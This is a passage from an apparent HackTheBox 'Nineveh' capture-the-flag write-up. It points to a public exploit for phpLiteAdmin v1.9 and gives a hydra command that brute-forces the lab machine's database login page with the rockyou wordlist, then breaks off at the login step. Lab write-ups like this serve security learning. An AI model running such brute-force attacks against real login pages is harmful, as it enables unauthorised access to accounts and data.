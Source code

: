 ![db-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nineveh/img/db-11.png)

If we search `phpLiteAdmin v1.9` online we can find an exploit from [ExploitDB](https://www.exploit-db.com/exploits/24044), but in order to pull this off we need to be authinticated. 

Lets try to brute force this page as well, i use `hydra` once again:

```bash
hydra -l admin -P  /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect"
```

![hydra-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nineveh/img/hydra-12.png)


Lets login:
